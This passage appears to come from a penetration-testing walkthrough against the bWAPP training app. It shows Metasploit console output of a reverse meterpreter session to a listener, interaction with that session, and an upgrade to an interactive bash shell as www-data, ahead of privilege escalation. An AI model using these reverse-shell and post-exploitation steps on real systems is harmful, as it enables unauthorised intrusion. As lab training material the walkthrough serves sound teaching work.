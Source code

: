 Back to the Metasploit console.

```
msf5 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                        Connection
  --  ----  ----                   -----------                        ----------
  1         meterpreter php/linux  www-data (33) @ vulnerablewebapps  10.99.9.90:9988 -> 10.99.50.177:36358 (10.99.50.177)
msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...
meterpreter > shell
Process 5446 created.
Channel 0 created.
whoami
www-data
/bin/bash -i
bash: cannot set terminal process group (1114): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vulnerablewebapps:/var/www/html/bWAPP/images$ 
```

We have a fully featured Bash shell now. We can now proceed with privilege escalation.
